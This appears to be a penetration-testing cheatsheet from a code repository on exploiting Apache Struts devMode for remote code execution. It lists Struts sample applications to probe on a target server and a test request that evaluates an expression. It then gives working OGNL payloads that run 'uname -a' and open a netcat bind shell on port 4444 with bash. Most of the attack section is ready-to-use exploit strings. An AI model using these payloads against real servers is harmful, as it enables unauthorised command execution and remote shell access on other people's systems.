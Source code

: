 ## Apache Struts Remote Code Execution cheatsheet

Apacje Struts is a open source framework utilizing JavaEE web applications and encouraging to employ MVC (Model View Controller) architecture.
When having the application developed in so-called **_devMode_** as set in the _struts.xml_ file:

``` <constant name="struts.devMode" value="true" />```

Then the middleware will be handling additional parameters passed to every function invocation.

### Testing for Struts devMode enabled

The most straightforward way to test for *devMode* enabled setting is to find an example JSP/WAR/JavaEE application within the server and then passed there specially crafted parameters.
The below list of commands is supported by the *devMode* in Struts:
- `debug=command`
- `debug=xml`
- `debug=console`
- `debug=browser`

There are the below most recognizeable example applications often deployed on the Tomcat webserver:

- the Struts 1:
 - struts-blank
 - struts-cookbook
 - struts-el-example
 - struts-examples
 - struts-faces-example
 - struts-faces-example2
 - struts-mailreader
 - struts-scripting-mailreader
- the Struts 2:
 - struts2-blank
 - struts2-rest-showcase
 - struts2-mailreader
 - struts2-showcase
 - struts2-portlet

By choosing one of them, testing whether it exists on target web server and passing special parameters, we can assure the Struts framework has been configured to use *devMode*. 
```
http://target/struts2-blank/example/HelloWorld.action?debug=command&expression=1%2b1
```
Firstly, we can see that those parameters are to be passed to the **.action** requests. Secondly, the above URL utilizes *struts2-blank* example webapplication, that may not be found on test server. In such situation one should go and test the very same parameters for actually deployed application.

There are those two most important parameters:
- `debug=command`
- `expression=<java_code>`

The *expression* parameter is where we will type our **Remote Code Execution** _payload_ .
When the above invocation will result with **2** in response body - we will be sure that the expression got evaluated, and thus the application is vulnerable to RCE.

### Utilizing RCE

Now, in order to execute one command, and get the first line out of it - there can be used the following expression: 
```
?debug=command&expression=new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.ProcessBuilder('uname -a').start().getInputStream())).readLine()
```

Where we have invocation of **uname -a** command within linux boxes.
In order to drop a bind shell on the server, the following method could be leveraged:

1. Pass the command as a String array:
..`new java.lang.String[]{'/bin/nc','-l','-p','4444','-e','"/bin/bash -i"'}`
2. Invoke the above expression with the array being passed to the *ProcessBuilder*
```
?debug=command&expression=new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.ProcessBuilder(new java.lang.String[]{'/bin/nc','-l','-p','4444','-e','"/bin/bash -i"'}).start().getInputStream())).readLine()
```

After that, the *bash* shell will bind to the 4444 port.